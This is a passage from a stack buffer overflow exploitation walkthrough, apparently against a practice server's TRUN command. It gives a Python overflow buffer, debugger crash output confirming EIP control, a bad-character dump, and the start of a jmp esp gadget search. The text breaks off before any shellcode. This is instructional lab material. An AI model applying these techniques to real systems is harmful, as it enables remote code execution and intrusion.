 And let's confirm with sending Bs to overwrite the EIP.

```
buf = b"TRUN ."
buf += b"A"*2006
buf += b"B"*4
buf += b"C"*(0xBB8 -len(buf))
```

```
(2c50.8d0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00cdf1e8 ebx=000000cc ecx=001e559c edx=00000000 esi=00401848 edi=00401848
eip=42424242 esp=00cdf9c8 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
42424242 ??              ???
```

Good we have a control of EIP.

### Bad Chars

Next step is to send all characters and observed for bad one. We will omit `\x00` from the start is that breaks the `strcpy`.

```
0:003> db esp L 100
00eff9c8  01 02 03 04 05 06 07 08-09 0a 0b 0c 0d 0e 0f 10  ................
00eff9d8  11 12 13 14 15 16 17 18-19 1a 1b 1c 1d 1e 1f 20  ...............
00eff9e8  21 22 23 24 25 26 27 28-29 2a 2b 2c 2d 2e 2f 30  !"#$%&'()*+,-./0
00eff9f8  31 32 33 34 35 36 37 38-39 3a 3b 3c 3d 3e 3f 40  123456789:;<=>?@
00effa08  41 42 43 44 45 46 47 48-49 4a 4b 4c 4d 4e 4f 50  ABCDEFGHIJKLMNOP
00effa18  51 52 53 54 55 56 57 58-59 5a 5b 5c 5d 5e 5f 60  QRSTUVWXYZ[\]^_`
00effa28  61 62 63 64 65 66 67 68-69 6a 6b 6c 6d 6e 6f 70  abcdefghijklmnop
00effa38  71 72 73 74 75 76 77 78-79 7a 7b 7c 7d 7e 7f 80  qrstuvwxyz{|}~..
00effa48  81 82 83 84 85 86 87 88-89 8a 8b 8c 8d 8e 8f 90  ................
00effa58  91 92 93 94 95 96 97 98-99 9a 9b 9c 9d 9e 9f a0  ................
00effa68  a1 a2 a3 a4 a5 a6 a7 a8-a9 aa ab ac ad ae af b0  ................
00effa78  b1 b2 b3 b4 b5 b6 b7 b8-b9 ba bb bc bd be bf c0  ................
00effa88  c1 c2 c3 c4 c5 c6 c7 c8-c9 ca cb cc cd ce cf d0  ................
00effa98  d1 d2 d3 d4 d5 d6 d7 d8-d9 da db dc dd de df e0  ................
00effaa8  e1 e2 e3 e4 e5 e6 e7 e8-e9 ea eb ec ed ee ef f0  ................
00effab8  f1 f2 f3 f4 f5 f6 f7 f8-f9 fa fb fc fd fe ff 43  ...............C
```

It seems all is good and we can use what ever we need except null byte.

### Redirection of the follow

We are getting to the end. Now we need to redirect flow to a memory which is executable and we can reliably jump there. Checking the registry at the time of the crash we can see that `ESP` is pointing just after the overwritten `EIP`. Let's search for `jmp esp` or anything similar.

The executable itself have a null butes at the beginning of the address, so it is not a good candidate, but essfunc is also part of the app and it seems the address is null byte free.
